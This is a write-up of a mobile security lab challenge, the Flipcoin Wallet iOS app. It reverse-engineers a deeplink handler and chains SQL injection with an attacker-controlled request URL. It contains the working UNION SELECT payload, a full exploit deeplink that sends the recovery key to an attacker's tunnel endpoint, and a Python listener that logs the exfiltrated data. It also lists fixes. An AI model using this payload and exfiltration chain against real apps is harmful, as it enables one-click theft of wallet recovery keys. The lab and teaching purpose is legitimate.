




## TL;DR

One tapped `flipcoin://` link makes Flipcoin Wallet send a stored wallet recovery key to an attacker's server. The deeplink handler pastes the `amount` query parameter straight into a SQLite query, then POSTs a column of the result to a URL taken from the `testnet` parameter. A `UNION SELECT` that moves `recovery_key` into the `address` column turns that "signature" request into an exfiltration channel.

| | |
| --- | --- |
| Platform | iOS, Swift, stripped arm64 |
| Lab | Mobile Hacking Lab, Flipcoin Wallet (SQL Injection) |
| Entry point | `flipcoin://` URL scheme |
| Bug class | SQL injection (CWE-89) chained with an attacker-controlled request URL |
| Impact | Theft of wallet recovery keys with one click |
| Tools | `rabin2`, `r2`, `plistutil`, Python, `sqlite3`, `cloudflared`, `uiopen` |

Flags and tunnel hostnames are redacted below.



Every step but the last runs on the victim's device; all the victim sees is a Send screen.

## 1. Recon

The imports alone show the bug: the app talks to SQLite but never binds a parameter.

```bash
rabin2 -I "$App"   # arm64, Swift, stripped, crypto false
rabin2 -l "$App"   # links /usr/lib/libsqlite3.dylib, WebKit, CryptoKit
rabin2 -i "$App"   # imports
```

The SQLite imports are `sqlite3_open`, `sqlite3_prepare`, `sqlite3_step`, `sqlite3_exec`, the `sqlite3_column_*` readers and `sqlite3_errmsg`. There is no `sqlite3_bind_*` anywhere, so every value in every query is built by string interpolation (`DefaultStringInterpolation` is imported too). Note the legacy `sqlite3_prepare`: it compiles only the first statement, so stacked queries are off the table.

The symbol table gives the interesting methods:

```
SceneDelegate.scene(_:openURLContexts:)            0x100015db4
SceneDelegate.getQueryStringParameter(url:param:)  0x1000155d8
SceneDelegate.getSignature(url:data:)              0x100018688
DatabaseHelper.getWallets(conditions: String?)     0x10000f51c
Wallet(id:address:currency:amount:recovery_key:)
```

`Info.plist` registers the URL scheme, and has no `NSAppTransportSecurity` exceptions (so outbound requests must be HTTPS):

```xml
<key>CFBundleURLSchemes</key>
<array><string>flipcoin</string></array>
```

The strings in `__cstring` give away the schema, the seed data and the query fragments:

```bash
rabin2 -z "$App" | grep -iE "select|where|wallet"
```

```
CREATE TABLE IF NOT EXISTS wallet (id INTEGER PRIMARY KEY AUTOINCREMENT,
  address TEXT, currency FLOAT, amount FLOAT, recovery_key TEXT);
INSERT OR IGNORE INTO wallet ... (1, "0x252B...C009", "flipcoin", 0.3654, "FLAG{REDACTED}"), (2, ...)
SELECT * FROM wallet
WHERE amount >                       <- lives in SceneDelegate.swift's string region
 AND currency='flipcoin' LIMIT 1
```

The recovery key is visible statically, but that is not the objective. The goal is a link that makes a victim's app leak it.

## 2. The deeplink handler

`openURLContexts` takes two attacker-controlled values from the URL: one goes into SQL, the other becomes the destination of an outbound POST.

```bash
r2 -e bin.relocs.apply=true -A -qc "pdf @ 0x100015db4" "$App" 2>/dev/null
```

Reconstructed from the disassembly:

```swift
for ctx in URLContexts {
    let url = ctx.url
    print(url)
    if url.host == "buy" {
        // opens the tab bar, nothing interesting
    } else if url.host.hasPrefix("0x") && url.host.count == 42 {
        let amount  = getQueryStringParameter(url.absoluteString, "amount")
        let testnet = getQueryStringParameter(url.absoluteString, "testnet")
                      ?? "https://mhl.pages.dev:8545"
        if let amount {
            dbHelper = DatabaseHelper()
            let wallets = dbHelper!.getWallets(conditions:
                "WHERE amount >\(amount) AND currency='flipcoin' LIMIT 1")
            if wallets.count > 0 {
                let w = wallets.last!
                let vc = SendController()           // "SendCrypto" scene
                vc.wallet = w
                vc.to_address = url.host
                vc.amount_to_send = amount
                let hash = sha256hex(w.address)
                let body = "{\"jsonrpc\":\"2.0\",\"method\":\"web3_sha3\"," +
                           "\"params\":[\"\(w.address)\", \"\(hash)\"],\"id\":1}"
                vc.signature = getSignature(url: URL(string: testnet)!, data: body)
            }
        }
    }
}
```

Key addresses:

| What | Where | Evidence |
| --- | --- | --- |
| Host must be `buy`, or start with `0x` | 0x100016448, 0x100016934 | `ps 3 @ 0x100024200` = `buy`, `ps 2 @ 0x100024308` = `0x` |
| Host length 42 (an Ethereum address) | 0x100016b44 | `mov w8, 0x2a` then compare |
| `amount` and `testnet` params | 0x100016c84, 0x100016d7c | string literals passed to `getQueryStringParameter` |
| Default RPC endpoint | 0x100016e34 | `https://mhl.pages.dev:8545` |
| Query built from `amount` | 0x1000170ac to 0x1000171b4 | `WHERE amount >` + amount + `AND currency='flipcoin' LIMIT 1` |
| Sent field is `Wallet.address` | 0x100017654, 0x1000178ac | vtable slot 0x90 on `Wallet` |

Why slot 0x90 is `address`: the SendController setters called here sit at 0x98, 0xb0, 0xc8 and 0xf8 (`to_address`, `amount_to_send`, `wallet`, `signature`). That means one 8-byte slot per stored field, then a get/set/modify triplet per property in declaration order. `Wallet` has 5 fields, so `id` takes 0x78 to 0x88 and the `address` getter lands on 0x90. A live test later confirmed it.

The `amount` value is pasted after `>` with no quotes, so the injection is in a numeric context: no string to break out of.

## 3. The sink and the exfil channel

`getWallets` prepends `SELECT * FROM wallet` to the conditions and runs it unbound; `getSignature` POSTs the body to the `testnet` URL without any check.

**getWallets** (`pdf @ 0x10000f51c`):

```swift
let sql = "SELECT * FROM wallet " + (conditions ?? "") + ";"   // final char at 0x100022d46
if sqlite3_prepare(db, sql, -1, &stmt, nil) != SQLITE_OK {
    print("error preparing query: \(String(cString: sqlite3_errmsg(db)))")
    return []
}
while sqlite3_step(stmt) == SQLITE_ROW {
    wallets.append(Wallet(
        id:           sqlite3_column_int(stmt, 0),
        address:      String(cString: sqlite3_column_text(stmt, 1)!),
        currency:     String(cString: sqlite3_column_text(stmt, 2)!),
        amount:       Float(sqlite3_column_double(stmt, 3)),
        recovery_key: String(cString: sqlite3_column_text(stmt, 4)!)))
}
```

The full query that runs on the device:

```sql
SELECT * FROM wallet WHERE amount ><amount> AND currency='flipcoin' LIMIT 1;
```

Two side effects shape the payload:

- **NULL in column 1, 2 or 4 crashes the app.** Each `column_text` result is force-unwrapped. Injected rows need real text in those positions.
- **A broken query does not crash.** It logs `error preparing query: <errmsg>` and returns an empty array. With access to the device log, that is a free SQL error oracle.

**getSignature** (`pdf @ 0x100018688`) builds and fires the request:

```swift
var req = URLRequest(url: url)
req.httpMethod = "POST"
req.httpBody = data.data(using: .utf8)
req.addValue("application/json", forHTTPHeaderField: "Content-Type")
req.addValue(..., forHTTPHeaderField: "Accept")
URLSession.shared.dataTask(with: req) { ... }.resume()
return result   // captured box, returned before the request completes
```

The returned "signature" is almost certainly empty because the function returns before the task finishes. That does not matter: the POST still goes out, to a host the attacker picks.

## 4. Building the payload offline

Lab device time costs credits, so the payload was built on Kali against a copy of the seeded database, with a harness that calls `sqlite3_prepare` exactly like the app.

**Seed the database** with the schema and rows from the binary ([`seed.sql`](/assets/files/mhl-flipcoin-wallet/seed.sql)) (single quotes, since newer `sqlite3` builds reject double-quoted strings):

```bash
sqlite3 /tmp/fc.db < scripts/seed.sql
```

**The harness.** The first version piped the query to the `sqlite3` CLI. That was wrong: the CLI runs every statement, while the app's `sqlite3_prepare` compiles only the first. The fixed harness ([`t.py`](/assets/files/mhl-flipcoin-wallet/t.py)) calls libsqlite3 through `ctypes`, rebuilds the app's exact query, shows what `prepare` ignores, flags the NULL crash, and prints the value that would be sent:

```python
sql = ("SELECT * FROM wallet " + f"WHERE amount >{dec} AND currency='flipcoin' LIMIT 1" + ";").encode()
rc = lib.sqlite3_prepare(db, sql, -1, ctypes.byref(stmt), ctypes.byref(tail))
# ... step through rows, read columns 0-4 like the app ...
print("[sent] ", rows[-1][1])   # column 1 of the last row
```

**Attempt 1: stacked query.** Fails.

```
$ python3 t.py '0;SELECT recovery_key from wallet;'
[ignored by prepare] SELECT recovery_key from wallet; AND currency='flipcoin' LIMIT 1;
[sent]  1W5vKAAKmBAjjtpCkGZREjgEGjrbwERND
```

The `;` did cut off the `AND currency=... LIMIT 1` suffix, so both rows came back. But the second SELECT never runs, and the sent value is still an address.

**Attempt 2: UNION.** Works. `UNION` keeps everything in one statement. Columns are matched by position and named by the first SELECT, so whatever sits in position 2 is treated as `address`:

```
$ python3 t.py '999 UNION SELECT id,recovery_key,currency,amount,recovery_key FROM wallet WHERE id=1--'
[row]   [1, 'FLAG{REDACTED}', 'flipcoin', 0.3654, 'FLAG{REDACTED}']
[sent]  FLAG{REDACTED}
```

| Part | Why it is there |
| --- | --- |
| `999` | No wallet holds more than 999, so the app's own SELECT returns nothing and the injected row is the last (only) one |
| `UNION SELECT id,recovery_key,...` | 5 columns to match `SELECT *`; `recovery_key` in position 2 is the swap |
| `currency`, `recovery_key` in 3 and 5 | Real text, so no NULL and no crash |
| `WHERE id=1` | Picks one wallet; `id=2` leaks the other |
| `--` | Comments out `AND currency='flipcoin' LIMIT 1;` |

## 5. Exploitation on the device

With a POST logger behind an HTTPS tunnel, one `uiopen` call made the app send the recovery key to the attacker's server.

**Listener.** `SimpleHTTPRequestHandler` can't log a POST body, and a self-signed certificate fails ATS, so the setup is a minimal POST logger on localhost ([`listener.py`](/assets/files/mhl-flipcoin-wallet/listener.py)) behind a Cloudflare quick tunnel, which provides a valid public HTTPS URL:

```python
class H(BaseHTTPRequestHandler):
    def do_POST(self):
        body = self.rfile.read(int(self.headers.get("Content-Length", 0))).decode(errors="replace")
        print(f"\n[+] POST {self.path}\n{body}\n", flush=True)
        self.send_response(200); self.end_headers()

HTTPServer(("127.0.0.1", 8080), H).serve_forever()
```

```bash
cloudflared tunnel --url http://127.0.0.1:8080   # -> https://<tunnel>.trycloudflare.com
```

**Baseline.** A clean link with `amount=0` confirmed the pipeline and the leaked column before any injection. The host is any 42-character `0x` string:

```bash
uiopen 'flipcoin://0xdeadbeefdeadbeefdeadbeefdeadbeefdeadbeef?amount=0&testnet=https%3A%2F%2F<tunnel>.trycloudflare.com'
```

```
[+] POST /
'{"jsonrpc":"2.0","method":"web3_sha3","params":["0x252B2Fff0d264d946n1004E581bb0a46175DC009", "111120a5...245e"],"id":1}'
```

`params[0]` is the `address` column, and `params[1]` is just its SHA-256 (`echo -n <address> | sha256sum` matches). The leading `'` comes from the hardcoded literal in the binary.

**Exploit.** The same link with the harness-tested payload in `amount`, percent-encoded:

```bash
uiopen 'flipcoin://0xdeadbeefdeadbeefdeadbeefdeadbeefdeadbeef?amount=999%20UNION%20SELECT%20id%2Crecovery_key%2Ccurrency%2Camount%2Crecovery_key%20FROM%20wallet%20WHERE%20id%3D1--&testnet=https%3A%2F%2F<tunnel>.trycloudflare.com'
```



```
[+] POST /
'{"jsonrpc":"2.0","method":"web3_sha3","params":["FLAG{REDACTED}", "7da50a3f...bd90"],"id":1}'
```



On screen the victim sees an ordinary Send screen: the fake address in **Send To**, the SQL in **Amount**, and "Current Balance: 0.3654 in FLAG{REDACTED}" because the injected row also lands in the address label. The key has already left the device by then.



For real delivery, `uiopen` is replaced by the same URL as a tappable link in a web page, message or QR code.

Practical notes:

- Single-quote the URL in the device shell, or `&` backgrounds the command and drops `testnet`.
- `testnet` is a URL inside a URL, so it must be percent-encoded too.
- Quick tunnel URLs change every time `cloudflared` restarts.

## 6. Root causes and fixes

Three separate mistakes chain into one-click key theft; fixing any one of them breaks the attack.

| Root cause | Fix |
| --- | --- |
| SQL built by string interpolation from a URL parameter | Use `sqlite3_prepare_v2` with `?` placeholders and `sqlite3_bind_double`; parse `amount` as a number first and reject anything else |
| Request destination taken from the URL (`testnet`) | Never let a deeplink choose a network endpoint; hardcode or allowlist the RPC host |
| Sensitive data reachable from an unauthenticated deeplink | Treat every URL scheme handler as untrusted input; require user confirmation before any wallet action |

Defence in depth: keep recovery keys out of a plaintext SQLite table (Keychain, or encrypted at rest), and use universal links with a verified domain instead of a custom scheme any app or page can trigger.

## Lessons learned

- **Start from the imports.** No `sqlite3_bind_*` plus `DefaultStringInterpolation` pointed at the bug before any disassembly.
- **Know which SQLite API runs your query.** `sqlite3_prepare` ignores everything after the first statement, so stacked queries silently do nothing and `UNION` is the way in.
- **Make the test harness match the target.** The `sqlite3` CLI runs every statement and gave a false positive. Calling `sqlite3_prepare` through `ctypes` matched the app exactly.
- **Follow the data out.** SQL injection alone only changes what the app shows. The real impact came from finding where a result column leaves the device.
- **Prove the pipeline before injecting.** A clean `amount=0` request confirmed the listener, the tunnel and the leaked column in one lab-credit-cheap step.
